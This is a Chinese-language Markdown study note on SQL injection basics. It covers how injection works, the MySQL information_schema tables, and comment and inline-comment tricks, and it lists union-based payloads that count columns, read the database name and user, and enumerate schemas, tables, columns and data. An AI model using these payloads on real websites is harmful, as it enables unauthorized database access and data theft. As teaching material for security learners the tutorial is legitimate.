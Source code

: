 # SQL注入基础

## 介绍SQL注入
**SQL注入就是指Web应用程序对用户输入数据的合法性没有判断，前端传入后端的参数是攻击者可控的，并且参数带入数据库查询，攻击者可以通过构造不同的SQL语句来实现对数据库的任意操作**

## SQL注入原理
***SQL注入漏洞产生需满足以下两个条件***
* 参数用户可控：前端传给后端的参数内容用户可以控制
* 参数带入数据库查询：传入的参数拼接到SQL语句，且带入数据库查询
* 例：`select * from users where	id=1`不符合数据库语法规范语
法
* 例：`select * from users where	id=1 and 1=1`因为1=1为真，故返回id=1相同结果

## MySQL与SQL注入漏洞相关知识点
**在MySQL5.0版本之后，MySQL默认在数据库中存放"information_schema"的数据库，在该库中需要记住三个表名，"SCHEMATA、TABLES和COLUMNS"**
1. `SCHEMATA表存放该用户创建的所有数据库库名，需要记住该表中记录数据库库名的字段名为SCHEMA_NAME`
1. `TABLES表中存放该用户创建所有数据库库名和表名，我们要记住记录数据库库名和表名的字段名为TABLE_SCHEMA和TABLE_NAME`
1. `COLUMNS表存放该用户创建的所有数据库库名、表名和字段名，对应的字段名为TABLE_SCHEMA、TABLE_NAME和COLUMN_NAME`

### MySql查询语句
***在不知道任何条件时，语句如下***
1. **`SELECT 要查询的字段名 FROM 库名.表名`**
***在知道一条已知条件时，语句如下***
1. **`SELECT 要查询的字段名 FROM 库名.表名 WHERE 已知条件的字段名='已知条件的值'`**
***在知道两条已知条件时，语句如下***
**`SELECT 要查询的字段名 FROM 库名.表名 WHERE 已知条件1的字段名='已知条件1的值' AND 已知条件2的字段名='已知条件2的值'`**

### limit用法
`select * from users limit n,m`
* PS： n为起始位置，m为结束位置

## 需要记住的几个函数
* database() : 当前网站使用的数据库
* version() : 当前MySQL版本
* user() : 当前MySQL用户

## 注释符
**在MySQL中，常见注释符的表达方式：#或--空格或/****

## 内联注释
**内联注释形式：/*! code*/**
* 例子:`index.php?id=-15 /*! UNION*//*! SELECT*/1, 2, 3`

## 查询字段
`select * from users where id=1 order by 5`
* 用来判断字段数，数字可变

## 在数据库中查询参数ID对于内容
`select * from users where	id=1 union select 1,2,3`

## union 查询数据库
###当查询到字段，根据字段可查询到database(), user(), version()
`select * from users where id=1 union select 1, database(), user()`
##获取所有的库名
`select * from users where id=-1 union select 1,group_concat(char(32,58,32),schema_name),3 from information_schema.schemata`

## 当得到表明
`select * from users where id=-1 union select 1, (select column_name from information_schema.columns where table_schema='sql'and table_name='emails' limit 0,1), 3`

## 获取表名
`select * from users where id=-1 union select 1,(select table_name from information_schema.tables where table_schema="family" limit 0,1),3`

## 查询字段名
`select * from users where	id=-1 union select 1,(select column_name from	information_schema.columns where table_schema="family" and table_name="family" limit 0,1),3`

## 查询对应数据
`select * from users where id=-1 union select 1,(select id from family.family limit 0,1),3`
